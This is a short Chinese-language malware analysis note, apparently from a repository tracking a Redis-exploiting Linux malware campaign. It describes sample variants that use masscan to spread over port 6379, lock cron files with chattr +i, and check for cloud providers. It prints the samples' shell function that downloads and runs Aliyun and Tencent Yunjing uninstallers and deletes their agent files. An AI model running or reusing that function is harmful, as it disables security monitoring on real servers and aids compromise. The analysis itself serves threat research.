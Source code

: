#### 2018.12 更新，攻击者将一些恶意内容放在了：https://github.com/SYSTEMFOUR ；使用chattr +i；检测了云服务商以卸载安全程序；利用开源的masscan进行快速扩散传播

### xbY7p5Tb：
使用masscan对受害机公网IP的255.255.0.0网段进行针对REDIS的6379端口的攻击，以实现扩散(mas目录中)；加入了检查云服务器的功能，针对性卸载安全程序。


### 5bjpjvLP：
基本是对之前发现的样本进行升级，对cron的文件都使用chattr +i加入隐藏属性的操作来防止更改；仍然使用python脚本进行扫描扩散攻击；加入了检查云服务器的功能，针对性卸载安全程序：
```
function a() {
	if ps aux | grep -i '[a]liyun'; then
		wget http://update.aegis.aliyun.com/download/uninstall.sh
		chmod +x uninstall.sh
		./uninstall.sh
		wget http://update.aegis.aliyun.com/download/quartz_uninstall.sh
		chmod +x quartz_uninstall.sh
		./quartz_uninstall.sh
		rm -f uninstall.sh 	quartz_uninstall.sh
		pkill aliyun-service
		rm -rf /etc/init.d/agentwatch /usr/sbin/aliyun-service
		rm -rf /usr/local/aegis*;
	elif ps aux | grep -i '[y]unjing'; then
		/usr/local/qcloud/stargate/admin/uninstall.sh
		/usr/local/qcloud/YunJing/uninst.sh
		/usr/local/qcloud/monitor/barad/admin/uninstall.sh
	fi
	touch /tmp/.a
}
```
